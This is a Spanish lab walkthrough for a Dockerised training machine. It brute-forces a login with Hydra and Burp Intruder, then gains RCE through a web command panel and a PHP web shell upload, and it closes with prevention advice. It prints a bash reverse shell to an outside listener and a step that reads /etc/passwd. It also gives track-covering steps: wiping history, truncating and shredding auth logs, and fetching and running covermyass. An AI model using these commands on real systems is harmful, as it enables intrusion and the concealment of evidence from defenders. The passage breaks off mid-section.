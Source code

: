 = Ira
:author: Manuel L. Quero
:revdate: 2025-04-17
:toc: left
:doctype: book

<<<

== Ataque de Fuerza Bruta

Un ataque de fuerza bruta utiliza el método de prueba y error para adivinar la información de inicio de sesión, las claves de cifrado o encontrar una página web oculta. Los hackers estudian todas las combinaciones posibles con la esperanza de acertar. Aunque todos los ataques de fuerza bruta comparten este principio básico de «prueba y error», existen diferentes tipos de ataques de este tipo, cada uno con su propia metodología y estrategia.

A continuación vamos a ver los tipos de ataques más frecuentes:

=== 1. Ataque de fuerza bruta estándar

Este es el ataque de fuerza bruta en su forma más básica. El atacante intenta todas las combinaciones posibles de contraseñas hasta que se encuentre la correcta. Este método puede ser extremadamente lento y consume muchos recursos, pero también puede ser efectivo si la contraseña es débil, ya que muchas personas siguen usando contraseñas débiles, como "admin123" o "1234,", o practican un mal protocolo de contraseñas, como usar la misma contraseña para varios sitios web. Además, si el atacante realiza un trabajo de reconocimiento mínimo puede descifrar la contraseña potencial de una persona, como el nombre de su equipo deportivo favorito.

=== 2. Ataque de fuerza bruta con diccionario

Un ataque de diccionario es aquel en el que el atacante selecciona un objetivo y luego prueba las posibles contraseñas contra el nombre de usuario de esa persona, usando un software normalmente. Este método es más rápido que un ataque de fuerza bruta estándar, aún así suele llevar mucho tiempo y tiene una baja probabilidad de éxito en comparación con los métodos de ataque más nuevos y efectivos.

=== 3. Ataques de fuerza bruta híbrida 

Un ataque híbrido de fuerza bruta es cuando se combina un método de ataque de diccionario con un simple ataque de fuerza bruta. El atacante comienza con una lista de posibles palabras, luego experimenta con combinaciones de caracteres, letras y números para encontrar la contraseña correcta. Este enfoque permite al atacante descubrir contraseñas que combinan palabras comunes o populares con números, años o caracteres aleatorios, como "SanDiego123" o "Rover2020@".

=== 4. Ataques de fuerza bruta inversa 

Un ataque de fuerza bruta inversa ve a un atacante comenzar el proceso con una contraseña conocida, que generalmente se descubre a través de una violación de la red. Utilizan esa contraseña para buscar una credencial de inicio de sesión coincidente utilizando listas de millones de nombres de usuario. Los atacantes también pueden usar una contraseña débil de uso común, como "Contraseña123#", para buscar una coincidencia en una base de datos de nombres de usuario.

== RCE (Remote Code Execution)

La Ejecución Remota de Código (RCE) es una vulnerabilidad crítica que permite a un atacante ejecutar comandos o código arbitrario en un sistema remoto, normalmente con los permisos del proceso vulnerable. Esta falla puede surgir por errores de programación, configuraciones inseguras o el uso inadecuado de funciones que interactúan con el sistema operativo.

El impacto de un RCE puede ser devastador, ya que en muchos casos permite al atacante tomar el control completo del sistema, acceder a datos sensibles o incluso pivotar a otros sistemas de la red.

Existen múltiples técnicas para explotar esta vulnerabilidad. En nuestro caso, nos centraremos en dos formas comunes de RCE:

=== 1. RCE directo mediante inyección de comandos.

Las aplicaciones web mal configuradas o que no sanitizan correctamente las entradas del usuario pueden ser vulnerables a la inyección de comandos. Por ejemplo, si una aplicación pasa parámetros directamente a la línea de comandos sin validación adecuada.

=== 2. RCE mediante subida de archivos maliciosos.

Este ataque se da cuando una aplicación permite subir archivos, pero no controla adecuadamente el tipo, contenido o extensión del archivo. Si el servidor guarda ese archivo en un lugar accesible públicamente y permite su ejecución, el atacante puede subir un script malicioso (por ejemplo, PHP) y ejecutarlo remotamente.

== Solucionar la máquina

En esta guía vamos a ver, cómo realizar diferentes ataques de fuerza bruta, para después adentrarnos en ataques RCE. Aprenderemos distintas herramientas como hydra o burpsuite, entre otras.

Herramientas:

* https://portswigger.net/burp/communitydownload[Burpsuite]
* https://www.kali.org/tools/hydra/[Hydra]
* https://www.kali.org/tools/netcat/[Netcat]

Sería conveniente utilizar una distribución Linux, es recomendable usar Kali Linux.

=== Despliegue de la máquina

Como requisito, necesitaremos tener instalado docker y docker-compose.

Podemos ver como instalar docker para varias distribuciones de linux -> https://docs.docker.com/engine/install/[Instalar Docker]

Podemos ver como instalar docker-compose para varias distribuciones de linux -> https://docs.docker.com/compose/install/linux/[Instalar Docker-Compose]

Necesitaremos descargar primeramente el auto_deploy.sh, el cual se muestra como una pirámide en la página. Después en un directorio deberemos tener el auto_deploy.sh, ira.tar y docker-compose.yml, deberemos acceder con la terminal a dicho directorio y ejecutar el siguiente comando. 

(Si el auto_deploy no tiene permisos se los damos mediante *chmod +x*). 

[source,bash]
----
$ sudo bash auto_deploy.sh ira.tar
----

=== Ataque de Fuerza Bruta

==== Conceptos Básicos

El Intruder de Burpsuite tiene cuatro modos de operar, nosotros utilizaremos dos de ellos, pero me gustaría explicarlos para que quede claro que hace cada uno.

. Sniper -> Este modo prueba una lista de payloads en cada posición de forma individual, manteniendo las demás constantes. Es útil para detectar vulnerabilidades como inyecciones SQL o XSS en parámetros específicos. Por ejemplo, si tienes tres parámetros y una lista de 100 payloads, se realizarán 300 solicitudes (100 por cada parámetro).

. Battering Ram -> En este se aplica el mismo payload en todas las posiciones marcadas simultáneamente. Sirve para cuando el mismo valor debe estar presente en múltiples campos, como un token que aparece en varios lugares. Por ejemplo, si marcas dos posiciones y tienes una lista de 50 payloads, se realizarán 50 solicitudes, cada una con el mismo payload en ambas posiciones.​

. Pitchfork -> Este utiliza diferentes listas de payloads para cada posición, insertando los payloads correspondientes en paralelo. Se utiliza cuando se necesita probar combinaciones específicas de valores relacionados, como pares de usuario y contraseña correspondientes. Por ejemplo, si tienes dos listas de 100 elementos cada una, se realizarán 100 solicitudes, combinando el primer elemento de cada lista, luego el segundo, y así sucesivamente.

. Cluster Bomb -> Genera todas las combinaciones posibles entre múltiples listas de payloads, prueba cada combinación en las posiciones correspondientes. Es ideal para ataques de fuerza bruta donde se desconoce la relación entre los valores, como probar todas las combinaciones posibles de usuarios y contraseñas. Por ejemplo, si tienes una lista de 100 usuarios y otra de 100 contraseñas, se realizarán 10,000 solicitudes (100 x 100).

==== 1. Ataque de fuerza bruta estándar

Este, al ser un ataque por repetición en el que no se utiliza ningún tipo de software, prefiero dar recomendaciones en caso que queramos probar a realizarlo, ya que es muy tedioso y poco eficiente. Por ello, vamos a ver los usuarios y contraseñas más usados en un panel de login, además de algunas nociones básicas para encontrar información.

.Usuarios más usados
[%collapsible]
====
[source,text]
----
root
admin
test
guest
info
adm
mysql
user
administrator
oracle
ftp
pi
puppet
ansible
ec2-user
vagrant
azureuser
----
====

.Contraseñas más usadas
[%collapsible]
====
[source,text]
----
123456
123456789
12345678
password
qwerty123
qwerty1
111111
12345
secret
123123
1234567890
1234567
000000
qwerty
abc123
password1
iloveyou
11111111
dragon
monkey 
----
====

Hay ocasiones en las que no sabremos la identidad del usuario, pero podriamos hacernos a la idea si hacemos un ataque de OSINT a la víctima, conociendo: 

* *RRSS*

** Examinar perfiles públicos en plataformas como Facebook, LinkedIn, Twitter e Instagram para obtener nombres, fechas de nacimiento, intereses y otros datos personales que puedan estar relacionados con contraseñas. Identificar nombres de mascotas, equipos deportivos favoritos, fechas significativas, etc.

* *Búsqueda en Motores de Búsqueda*

** Utilizar operadores avanzados de búsqueda en Google para encontrar información relacionada con la víctima, como correos electrónicos, nombres de usuario y publicaciones en foros. Ejemplo: _site:linkedin.com/in/ "víctima"_

* *Revisión de Brechas de Seguridad*

** Consultar bases de datos de filtraciones de datos para verificar si la información de la víctima ha sido comprometida anteriormente. Existen herramientas como https://haveibeenpwned.com/[Have I Been Pwned] que pueden ser útiles.

* *Análisis de Metadatos*

** Descargar y analizar documentos públicos (PDFs, imágenes, etc.) asociados a la víctima para extraer metadatos que puedan revelar nombres de usuario, software utilizado, fechas y más. Para ello recomiendo herramientas como https://github.com/ElevenPaths/FOCA[FOCA].

* *Observación de Patrones de Contraseñas*

** Basándose en la información recopilada, inferir posibles patrones de contraseñas que la víctima podría utilizar, como combinaciones de nombres y fechas (ejemplo: Juan1990).

También recomiendo usar unas cuantas herramientas además de las anteriores:

https://www.kali.org/tools/theharvester/[TheHarvester] -> Recopila correos electrónicos, subdominios y nombres de usuario asociados a un dominio específico.

https://www.kali.org/tools/maltego/[Maltego] -> Permite visualizar relaciones entre personas, correos electrónicos, dominios y más mediante gráficos.

https://www.kali.org/tools/spiderfoot/[SpiderFoot] -> Automatiza la recopilación de información sobre una entidad específica, incluyendo direcciones IP, nombres de usuario y más.

https://www.kali.org/tools/sherlock/[Sherlock] -> Sirve para localizar el nombre de usario en distintas plataformas.

https://osintframework.com/[OSINT Framework] -> Un conjunto de herramientas categorizadas para facilitar la investigación OSINT.

https://www.kali.org/tools/recon-ng/[Recon-ng] -> Framework de reconocimiento web que ofrece módulos para recopilar información sobre objetivos.

==== 2. Ataque de fuerza bruta con diccionario

En este ataque, aunque ya fue visto en la anterior máquina, lo vimos a través de wpscan. En cambio en esta lo veremos con hydra y burpsuite.

Kali viene con varios diccionarios preinstalados en la ruta /usr/share/wordlist. A mi en especial me gusta mucho el de https://github.com/danielmiessler/SecLists[Seclists], ya que es muy completo. Pero hay que saber usar diccionarios, ya que si usamos primeramente unos muy fuertes nos va a tardar mucho, ya que la desventaja principal de los ataques de fuerza bruta es que usan muchos recursos del ordenador donde se ejecuta y dependiendo de eso, tardará más o menos.

===== Hydra

Cómo no conocemos ni el usuario ni la contraseña, tendremos que usar diccionarios en ambos campos. Pero antes de esto deberemos hacer un estudio de la página, para saber si usa POST o GET, y ver los IDs de los campos:

Si le damos al F12 podremos inspeccionar la estructura de la página, viendo que en los campos del usuario y contraseña, sus IDs son *user* y *pass*.

image::assets/Fuerza Bruta/Diccionario/IDs.png[ID]

Si le damos a Network y enviamos unas credenciales erroneas, veremos que se envían mediante *POST*, además de poder ver la url que será importante para el siguiente comando. Además de conocer el mensaje de error que nos devuelve para poder filtrar, en este caso *"Credenciales incorrectas."*.

image::assets/Fuerza Bruta/Diccionario/POST.png[POST]

Nuestro comando en hydra es:

[source, bash]
----
hydra -L /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/2024-197_most_used_passwords.txt 172.34.0.2 http-post-form "/index.php:user=^USER^&pass=^PASS^:Credenciales incorrectas."
----

* *-L* -> Lista de usuarios
* *-P* -> Lista de contraseñas
* *172.34.0.2* -> Ataca el host objetivo
* *http-post-form* -> Define el método del formulario
* *"/index.php:user=^USER^&pass=^PASS^:Credenciales incorrectas."*
** _la ruta del login_
** _los parámetros POST_
** _el mensaje que indica un fallo de login_

image::assets/Fuerza Bruta/Diccionario/Ataque.png[Ataque]

Probamos las credenciales que ha encontrado.

image::assets/Fuerza Bruta/Diccionario/Cred.png[Credenciales]

image::assets/Fuerza Bruta/Diccionario/Entrar.png[Pasar login]

De esta forma, podremos acceder mediante el uso de diccionarios, pero en este caso las credenciales eran sencillas, en peores casos tendremos que esperar horas, aunque depende del hardware del ordenador donde se ejecute.

===== Burpsuite

Primeramente recomiendo instalar FoxyProxy en nuestro navegador. Cuando estemos dentro de este, deberemos irnos a Proxies y crear uno nuevo dándole a Add. Deberemos poner la siguiente configuración, para interceptar con Burpsuite en local desde el puerto 8081. Además deberemos añadir en la parte de patrones el que aparece en la siguiente imagen:

image::assets/Fuerza Bruta/Diccionario/Burp/FoxyProxy.png[FoxyProxy Config]

Nos vamos a nuestra página donde le daremos al logo de FoxyProxy si lo hemos puesto en la barra de herramientas y le damos al proxy que hemos creado.

image::assets/Fuerza Bruta/Diccionario/Burp/FoxyProxy2.png[FoxyProxy Navegador]

Ahora abrimos Burpsuite y creamos un proyecto temporal, ya que tendremos la versión de la comunidad, iniciándolo por defecto. Cuando esté abierto, nos vamos a la configuración del proxy donde pondremos la IP y puerto que hemos configurado en FoxyProxy. 

image::assets/Fuerza Bruta/Diccionario/Burp/Burp1.png[Burpsuite]

En Burpsuite, en la parte de Proxy, le damos a *Intercept off* para pasarlo a *on* y comenzar a capturar el tráfico. Y en nuestra página ponemos cualquier credenciales y le damos a entrar, enviándonos a Burpsuite directamente.

image::assets/Fuerza Bruta/Diccionario/Burp/Burp2.png[Burpsuite2]

image::assets/Fuerza Bruta/Diccionario/Burp/LoginBurp.png[Enviar petición]

En Burpsuite, nos aparecerá la petición POST que hemos capturado, donde podremos ver los IDs de los campos, por lo que para atacar desde Burpsuite, deberemos pasar esta petición al intruder, le damos clic derecho sobre la petición y la enviamo a este:

image::assets/Fuerza Bruta/Diccionario/Burp/Burp3.png[Burpsuite2]

image::assets/Fuerza Bruta/Diccionario/Burp/Intruder1.png[Intruder1]

Una vez en el Intruder, deberemos darle al desplegable de arriba y cambiarlo a *Cluster bomb attack*, ya que sirve para ataques que combinan usuarios y contraseñas. Después en los IDs que están en la parte inferior, borraremos el usuario y contraseña que hemos puesto antes en el login, y después de cada símbolo de igual le daremos a *Add §*.

image::assets/Fuerza Bruta/Diccionario/Burp/Intruder2.png[Intruder2]

A la derecha nos pedirá igresar un payload, es decir, los diccionarios y deberemos poner el correspondiente payload en la posición correcta. En el 1 va el de los usuario y le pongo el diccionario de nombres de usuario frecuentes y en el 2 va la contraseña y por ello le pongo el diccionario de contraseñas sencillas.

image::assets/Fuerza Bruta/Diccionario/Burp/Intruder3.png[Intruder3]

image::assets/Fuerza Bruta/Diccionario/Burp/Intruder4.png[Intruder4]

Además en la configuración del Intruder deberemos cambiar dos cosas:

* *Redirections* -> Deberemos poner Always para aceptar las redirecciones.

image::assets/Fuerza Bruta/Diccionario/Burp/IntruderRedirections.png[Ajuste Redirecciones]

* *Grep - Extract* -> Como hemos hecho antes en el caso de Hydra, deberemos indicarle el mensaje de error. Principalmente se usa para delimitar cuando empieza y cuando acaba el ataque. Por desgracia, no nos aparecerá con nuestra página. Por lo que deberemos estar atentos al cambio de longitud.

Una vez dicho esto le damos al botón naranja para iniciar el ataque, empezará a probar tanto usuarios como contraseñas hasta que dé con el correcto, podemos ver el proceso y cuando cambie la longitud, la primera significa que ha entrado con esas, ya que hemos puesto que acepte redirecciones.

image::assets/Fuerza Bruta/Diccionario/Burp/Entrar.png[Pasar el login]

Cuando quitemos la interceptación del proxy, podremos ver cómo hemos entrado:

image::assets/Fuerza Bruta/Diccionario/Burp/Entrar2.png[Pasar el login2]

==== 3. Ataques de fuerza bruta híbrida

===== Hydra

Vamos a crear un diccionario solo con las palabras más comunes y usando *crunch*, de esta forma crearemos un diccionario híbrido más dedicado.

Tabla de caracteres especiales de crunch:

[cols="1,1"]
|===
|Símbolo|Significado

|@
|Minúsculas (a-z)

|,
|Mayúsculas (A-Z)

|%
|Números (0-9)

|^
|Símbolos (!@$%, etc.)
|===

Por lo que realizamos los siguientes comandos, obteniendo un diccionario personal al que le podemos añadir entradas en caso de encontrar información más relevante.

[source,bash]
----
$ crunch 8 8 admin%%% >> diccionario.txt
$ crunch 9 9 qwerty%%% >> diccionario.txt
$ crunch 7 7 @@@@123 >> diccionario.txt
$ crunch 7 7 user^^^ >> diccionario.txt
----

En este ataque vamos a atacar directamente a la cuenta *admin* con hydra. De esta forma veremos el uso del parametro -l y como actuar en caso de conocer al usuario.

[source,bash]
----
hydra -l admin -P diccionario.txt 172.34.0.2 http-post-form "/index.php:user=^USER^&pass=^PASS^:Credenciales incorrectas."
----

* *-l* -> En este parámetro ponemos el nombre del usuario.

image::assets/Fuerza Bruta/Hibrido/Hydra/Ataque.png[Ataque]

===== Burpsuite

En este caso, realizaremos lo ya visto anteriormente hasta la parte del Intruder. En este caso, vamos a usar el Sniper attack, donde se usa en una posicion, un objetivo. Deberemos añadir los símbolos en la parte de la contraseña.

image::assets/Fuerza Bruta/Hibrido/Burp/Intruder1.png[Intruder1]

En este caso vamos a poner unas cuantas palabras en la parte de payload, añadiendo una por una, y luego añadiremos a cada una distintos sufijos.

image::assets/Fuerza Bruta/Hibrido/Burp/Intruder2.png[Intruder2]

En la parte de Payload processing, añadiremos los sufijos, para ello le daremos a añadir, en la pestaña buscamos "Add sufix" y ponemos el que queramos, además podemos ponerles incluso prefijos para hacerlo más completo. Pero deberemos activarlos según queramos, ya que si todos están activos se acumulan y eso no lo queremos, por lo que voy a ir uno por uno.

image::assets/Fuerza Bruta/Hibrido/Burp/Intruder3.png[Intruder3]

image::assets/Fuerza Bruta/Hibrido/Burp/Intruder4.png[Intruder4]

Al final nos debe quedar algo así:

image::assets/Fuerza Bruta/Hibrido/Burp/Intruder5.png[Intruder5]

También es importante recordar que en la configuración hay que cambiar lo de las redirecciones a siempre. Dicho esto, vamos a probar el ataque:

Si probamos con el primer sufijo, ninguno es correcto, por lo que queda descartado. De esta forma deberemos probarlo con cada uno.

image::assets/Fuerza Bruta/Hibrido/Burp/Ataque1.png[Ataque1]

image::assets/Fuerza Bruta/Hibrido/Burp/Ataque2.png[Ataque2]

Podemos observar que con el último sufijo que hemos introducido es correcto, ya que a variado la longitud. Y cuando quitemos el proxy ya estermos dentro.

==== 4. Ataques de fuerza bruta inversa

===== Hydra

En este caso, deberemos usar una contraseña que ya sabemos que alguien utiliza, en nuestro caso va a ser *qwerty123*, pero no conocemos al usuario por lo que podemos usar algún diccionario de los anteriores mencionados o crear uno con los usuarios más utilizados.

[source,bash]
----
hydra -L /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -p qwerty123 172.34.0.2 http-post-form "/index.php:user=^USER^&pass=^PASS^:Credenciales incorrectas."
----

* *-p* -> En este parámetro ponemos la contraseña que creamos correcta.

image::assets/Fuerza Bruta/Inverso/Hydra/Ataque.png[Ataque]

===== Burpsuite

Como ya hemos visto antes, deberemos hacer lo mismo hasta el punto del Intruder, donde añadiremos los símbolos en el usuario y meteremos un payload para adivinarlo.

image::assets/Fuerza Bruta/Inverso/Burp/Intruder.png[Intruder]

image::assets/Fuerza Bruta/Inverso/Burp/Ataque.png[Ataque]

Como podemos observar el usuario correcto es *admin*.


=== RCE

Una vez dentro, gracias a los ataques de fuerza bruta, en el panel de administrador se puede acceder a una linea de comandos para administrar desde la web, y también se puede acceder a una página para subir archivos y poder verlos mediante un enlace. A continuación vamos a ver estos dos tipos de ataque RCE:

==== 1. RCE directo mediante inyección de comandos.

Teniendo a nuestra disposición una terminal, vamos a recolectar información para luego hacer una reverse shell y poder efectuar comando con mayor tranquilidad.

image::assets/RCE/CMD/Página.png[Página]


===== Conocer estructura de archivos

* *ls -la* -> Con este comando podemos ver todos los archivos del directorio actual, conociendo sus permisos, usuario y grupo.

image::assets/RCE/CMD/LS.png[comando ls]

* *pwd* -> Podemos saber en qué directorio estamos

image::assets/RCE/CMD/PWD.png[comando pwd]

===== Usuarios

* *whoami* -> Podemos conocer que usuario somos. Podemos ver que somos root, por lo que podemos hacer de todo.

image::assets/RCE/CMD/whoami.png[comando whoami]

* *id* -> Podemos ver los permisos que tiene nuestro usuario. 

image::assets/RCE/CMD/id.png[comando id]

* *cat /etc/passwd* -> En este archivo se encuentran los usuarios que existen en el sistema

image::assets/RCE/CMD/passwd.png[archivo passwd]

===== Sistema Operativo

* *uname -a* -> Nos dice el sistema operativo en el que se encuentra. Cómo está en un docker dentro de un Kali, podemos ver lo siguiente.

image::assets/RCE/CMD/uname.png[comando uname]

===== Reverse Shell

Al ser root, podemos hacer todo lo que queramos, cómo si queremos borrar todo el sistema, pero también podemos mantenernos persistentes en él o acceder para tener una terminal más comoda. Hay miles de cosas que podemos hacer en está situación, por lo que vamos a ver cómo realizar una reverse shell desde la web.

Abrimos una terminal con netcat y nos ponemos a la escucha:

image::assets/RCE/CMD/NetCat1.png[NetCat 1]

En la web ponemos el siguiente comando:

[source,bash]
----
bash -c 'bash -i >& /dev/tcp/192.168.1.20/4444 0>&1'
----

image::assets/RCE/CMD/NetCat2.png[NetCat 2]

Una vez hecho esto ya estaremos conectados con netcat como root:

image::assets/RCE/CMD/NetCat3.png[NetCat 3]

Ya que somos root, y estamos con infltrados en el sistema, he pensado que estaría bien tener en cuenta algunas prácticas para limpiar nuestro rastro:

* *1. Crear directorios ocultos*

[source,bash]
----
$ mkdir /dev/shm/.secreto
$ ls -la /dev/shm/
----

Para eliminar el directorio después de usarlo:

[source,bash]
----
$ rmdir /dev/shm/.secreto
----

* *2. Borrar historial de Bash*

Podemos ver el historial actual con history.

** Eliminar la variable de entorno HISTFILE:

[source,bash]
----
$ unset HISTFILE
----

** O redirigir el historial a /dev/null:

[source,bash]
----
$ HISTFILE=/dev/null
$ export HISTFILE=/dev/null
----

** Configurar para no guardar el historial
[source,bash]
----
$ HISTSIZE=0
$ HISTFILESIZE=0
----

** Eliminar el historial con:
[source,bash]
----
$ history -c
$ cat /dev/null > ~/.bash_history && history -c && exit
----

* *3. Limpiar archivos de registro*

Para evitar dejar rastros en los registros del sistema, podemos truncarlos en lugar de eliminarlos de esta forma no levantaremos sospechas:

[source,bash]
----
$ truncate -s 0 /var/log/auth.log
$ echo '' > /var/log/auth.log
$ cat /dev/null > /var/log/auth.log
----

También podemos usar shred para sobrescribir el archivo:

[source,bash]
----
$ shred -zu /var/log/auth.log
----

* *4. Uso de herramientas*

https://github.com/sundowndev/covermyass[Covermyass] es un script automatizado para borrar huellas, limpiar archivos de registro y desactivar el historial:

[source,bash]
----
$ curl -sSL https://github.com/sundowndev/covermyass/releases/latest/download/covermyass_linux_amd64 -o ./covermyass
$ chmod +x ./covermyass
$ ./covermyass
----

Con opciones para borrar registros y desactivar el historial de Bash y autenticación.

==== 2. RCE mediante subida de archivos maliciosos.

Ahora nos iremos a la parte de subir archivos, donde primeramente provaremos a subir uno de ejemplo:

image::assets/RCE/archivos/Página.png[Página]

Voy a subir un archivo pdf para comprobar si se pueden ejecutar los archivos:

image::assets/RCE/archivos/PDF1.png[PDF1]
image::assets/RCE/archivos/PDF2.png[PDF2]
image::assets/RCE/archivos/PDF3.png[PDF3]

Como podemos observar, podemos abrir estos archivos, por lo que vamos a realizar una web shell con permisos de root:

image::assets/RCE/archivos/WebShell.png[WebShell]

De esta forma, a través de este archivo podremos ejecutar comandos como administrador, deremos usar lo siguiente en la url del archivo "?cmd=(comando)", así enviamos el comando para que el GET lo obtenga y lo pase.

image::assets/RCE/archivos/WebShell2.png[WebShell2]

image::assets/RCE/archivos/WebShell3.png[WebShell3]

Y ya podemos hacer lo que queramos como root.

==== Aclaración

En este último hemos sido root todo el rato, pero eso casi nunca es así, por lo que en el siguiente pecado aprenderemos a escalar privilegios mediante capabilities u otras formas.

== ¿Cómo prevenir?

=== Fuerza Bruta

==== 1. Usar contraseñas seguras

Como hemos visto, las credenciales se han obtenido fácilmente debido a su baja seguridad. Por ello, se recomienda evitar contraseñas predecibles como nombres propios, fechas de nacimiento o palabras comunes. Además, es buena práctica cambiarlas periódicamente para reducir riesgos en caso de filtración.

==== 2. Implementar autenticación multifactor (MFA)

La autenticación multifactor añade una capa adicional de seguridad al requerir, además de la contraseña, una segunda forma de verificación, como un código enviado al teléfono móvil o generado por una aplicación. Esto dificulta el acceso incluso si la contraseña ha sido comprometida.

==== 3. Limitar los intentos de inicio de sesión

Limitar el número de intentos de inicio de sesión es una medida eficaz contra los ataques de fuerza bruta. Estos ataques prueban múltiples combinaciones de credenciales en poco tiempo, por lo que establecer un límite de intentos y bloquear temporalmente la cuenta tras varios fallos puede detenerlos de forma efectiva.

==== 4. Usar sistemas de detección (IDS) y prevención (IPS) de intrusiones

Los IDS e IPS son herramientas clave para detectar y bloquear comportamientos sospechosos, como múltiples intentos de acceso fallidos. Un IDS actúa como sistema pasivo, alertando sobre actividades anómalas, mientras que un IPS puede intervenir activamente para bloquear el tráfico malicioso.

Ejemplos:

* Snort
* Suricata

==== 5. Implementar restricciones por IP

Restringir el acceso a servicios críticos mediante filtros por dirección IP o ubicación geográfica ayuda a reducir la superficie de ataque. De este modo, solo se permite el acceso desde ubicaciones de confianza.

==== 6. Usar CAPTCHAs

Los CAPTCHA son pruebas diseñadas para diferenciar a humanos de bots. Al pedir al usuario que resuelva tareas simples como identificar imágenes o escribir un texto distorsionado, se evita que scripts automatizados abusen de formularios o sistemas de autenticación.

==== 7. Aplicar limitación de velocidad (Rate Limiting)

Este mecanismo restringe el número de solicitudes permitidas desde una IP o usuario en un intervalo de tiempo. Al aplicarlo, se reduce la eficacia de los ataques automatizados, ya que impide probar grandes volúmenes de credenciales rápidamente.

==== 8. Utilizar un cortafuegos de aplicaciones web (WAF)

El WAF protege las aplicaciones web examinando el tráfico entrante. Detecta y bloquea patrones sospechosos antes de que lleguen a la aplicación, como intentos masivos de inicio de sesión o inyecciones maliciosas.

=== RCE

==== 1. Validación y Sanitización de Entradas

La mayoría de los ataques RCE aprovechan vulnerabilidades como la inyección o deserialización insegura. Para prevenirlos, es fundamental validar y sanear todas las entradas del usuario, evitando el uso de funciones peligrosas como eval() o exec() que ejecutan contenido arbitrario.

==== 2. Gestión de Parches y Actualizaciones

Mantén sistemas operativos, aplicaciones y dependencias siempre actualizados. Muchas vulnerabilidades que permiten RCE ya son conocidas y cuentan con parches disponibles.

==== 3. Principio de Mínimos Privilegios

